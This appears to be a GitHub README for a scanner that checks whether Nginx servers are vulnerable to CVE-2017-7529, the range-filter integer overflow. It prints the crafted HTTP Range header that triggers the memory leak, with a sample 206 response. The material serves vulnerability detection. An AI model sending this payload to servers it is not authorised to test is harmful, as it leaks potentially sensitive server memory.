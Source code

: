 # Cve_Finder_2017-7529
The tool is used to detect whether a server is vulnerable to Nginx Remote Integer Overflow CVE (2017-7529)

## Nginix Remote Integer Overflow

Nginx CVE-2017-7529 Remote Integer Overflow Vulnerability. Description: Nginx versions since 0.5. 6 up to and including 1.13. 2 are vulnerable to integer overflow vulnerability in nginx range filter module resulting into leak of potentially sensitive information triggered by specially crafted request.The attacker sends a specially crafted header Range in HTTP Request which causes the vulnerable Nginx Server to overflow memory bytes of server or leaks its content.

The response code for detecting Nginx Remote Overflow is 206 and Partial Content is recieved in HTTP status line. 

### Request

 GET /domain HTTP/1.1<br/>
 Accept-Encoding: identity<br/>
 Range: bytes=-17208,-9223372036854758792<b/r>
 Host: 127.0.0.1:8000<br/>
 Connection: close<br/>
 User-Agent: Python-urllib/2.7<br/>

## Response

 HTTP/1.1 206 Partial Content<br/>
 Server: nginx/1.13.1<br/>
 Date: Mon, 21 May 2020 06:51:52 GMT<br/>
 Content-Type: multipart/byteranges; boundary=00000000000000000002<br/>
 Connection: close<br/>
 Last-Modified: Mon, 17 Jul 2017 02:19:08 GMT<br/>
 ETag: "40c9-5547a060fdf00"<br/>
 X-Proxy-Cache: HIT<br/>
 --00000000000000000002<br/>
 Content-Type: text/html<br/>
 Content-Range: bytes -623-16584/16585<br/>
